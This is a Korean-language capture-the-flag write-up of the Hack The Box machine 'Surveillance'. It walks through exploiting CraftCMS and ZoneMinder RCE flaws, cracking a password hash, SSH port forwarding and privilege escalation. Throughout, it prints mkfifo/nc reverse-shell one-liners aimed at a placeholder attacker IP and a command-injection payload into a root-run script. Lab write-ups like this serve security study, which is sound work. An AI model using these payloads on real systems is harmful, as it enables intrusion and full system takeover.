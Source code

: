 ### 사용된 취약점: CraftCMS 관련 취약점(RCE), zoneminder 취약점(RCE)
### 정찰
- CraftCMS
  - CraftCMS 라는 관리 툴을 로그인 페이지에서 발견
  - source 보기에서 csrf token 발견
  - source 보기에서 CraftCMS의 버전 정보가 있음
 <br></br>
### 초기 침투
- 취약점 설명
  - data 대신 shell을 인코딩하여 넣고 보낼 경우 파서가 코드를 실행하여 결과를 출력
  - https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py에 있는 exploit 코드를 사용
    - 특정 데이터를 담아 phpinfo()를 실행하는 스크립트를 보냄
    - phpinfo() 실행으로 tmpdir과 documen_root 디렉터리를 찾음
    - tmp 디렉터리에 webshell 생성 후 imagick class를 조작하여 root 디렉터리로 이동
    - while True부분에서 명령을 실행하여 지속적으로 명령을 실행하게 함
    - f'\033[1;96m[+]\033[0m create shell.php in {tmp_dir}', f'\033[1;31m[-]\033[0m {HOST} is not exploitable.'
    - expliot code에서 a \033[1;96m[+]\033 부분은 글씨의 크기나 색깔을 설정하는 부분
  <br></br>
- web shell 실행 후
  - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your IP here> 1234 >/tmp/f 코드를 타겟 머신에서 실행하여 완전한 shell을 획득한다
  - 내부에서 matthew와 zoneminder라는 이름을 발견했다.
  - storage에서 backups파일을 발견해서 웹 디렉터리에 넣고 wget으로 다운로드 한다.
    - cp /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip ./
    - wget surveillance.htb/surveillance--2023-10-17-202801--v4.4.14.sql.zip
      - 해당 db파일에서 matthew 계정과 패스워드 해시 값을 찾을 수 있다.
<br></br>
- 해시 값 크랙
  - hash-identifier로 종류를 확인한다.
    - sha-256과 haval-256으로 결과가 좁혀진다.
  - hashcat -m 1400 a.txt /usr/share/wordlists/rockyou.txt로 크랙을 시도
    - 나온 pw로 ssh를 이용하여 접속하여 user.txt 값을 읽는다.
<br></br>   
- matthew 말고도 zoneminder라는 것을 검색해본 결과 cctv 모니터링 소프트웨어라는 것을 알 수 있다.
<br><br>
- zoneminder
  - /etc/nginx/sites-enabled/zoneminder.conf에 127.0.0.1:8080 에서 서비스가 실행된다.
  - 접근하기 위해 포트 포워딩을 사용할 예정
    - ssh -L 2222:127.0.0.1:8080 matthew@surveillance.htb 로 포트포워딩을 한다
      - 하는 이유: local에 설치된 zonemider에 접근하기 위함
      - ssh -L [local포트]:[최종적으로 접근 할 곳] [ssh 서버 주소]
      - pw: starcraft122490
      - 이후에 브라우저에 127.0.0.1:2222 주소를 입력하여 접속한다
<br></br>
- 연결 된 후
  - 연결된 ssh 에서 버전 정보를 확인한다.
  - /usr/share/zoneminder/www/api/app/Config 에서 cat * | grep -i version을 실행하여 ZM_VERSION 1.36.32, ZM_API_VERSION 1.36.32.1 값을 확인
  - cve 2023-26035 익스플로잇 코드를 찾아 사용하여 reverse shell을 연결
    - CVE 2023-26035: RCE
    - python3 poc.py --target http://127.0.0.1:2222/ --cmd 'rm /tmp/f;cat /tmp/f|sh -i 2>&1|nc <내 ip> 4444 >/tmp/f'
  - reverse shell이 연결 된 후
    - sudo /usr/bin/zmupdate.pl -v 1.19.0 -u root를 실행 할 시 에러가 출력되고 에러에 pw가 포함되어 출력
    - sudo /usr/bin/zmupdate.pl -v 1.19.0 -u ';whoami; 실행 시 해당 스크립트가 root권한으로 실행되는 것을 알 수 있다
      - output으로 whoami 결과가 root로 나오기 때문
      - 파일 안에서 /bin/sh로 실행됨
      - mysql 커맨드를 실행하는 코드가 존재
    - sudo /usr/bin/zmupdate.pl -v 1.19.0 -u ';busybox nc <my_ip> 1234 -e sh; '로 root 권한을 얻은 reverse shell을 연결한다.
    - root.txt 파일을 읽는다.
  <br></br>

### 유의해야 할 점
### htb에서 root권한 스크립트를 통한 권한상승을 많이 봄
- root권한으로 실행하거나 /bin/sh로 명령어를 실행하는 스크립트를 이용하여 권한 상승을 시도한다.
### web.config, url 재작성하는 설정파일

- gobuster 사용 시 p1, p2 같은 결과를 얻음
- 해당 규칙이 설정 파일에서 url을 재정의 함
  - ##<action type=Rewrite" url="index.php?p={R:1}" appendQueryString="true" />
  - 필터링이 목적인 것으로 추측함
### 설정파일을 읽는 것을 공부하여 버전 정보 확인이나 권한 상승에 이용
### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1234 >/tmp/f
- reverse shell 연결 때 많이 보이는 명령어
  - rm /tmp/f;: tmp 안에 f라는 이름이 있는 파일을 모두 삭제
  - mkfifo /tmp/f: tmp안에 f라는 파이프 생성
    - mkfifo: fifo는 프로세스간 통신을 허용하는 파일
  - cat /tmp/f|/bin/sh -i 2>&1: cat으로 입력을 읽고 파이프로 전달되어 새로운 shell 객체를 인터렉티브 모드(-i)로 실행, 그 후 output과 error를 출력으로 보냄
  - nc 1234 >/tmp/f: nc로 연결 설정 후 수신된 데이터를 /tmp/f로 리디렉션
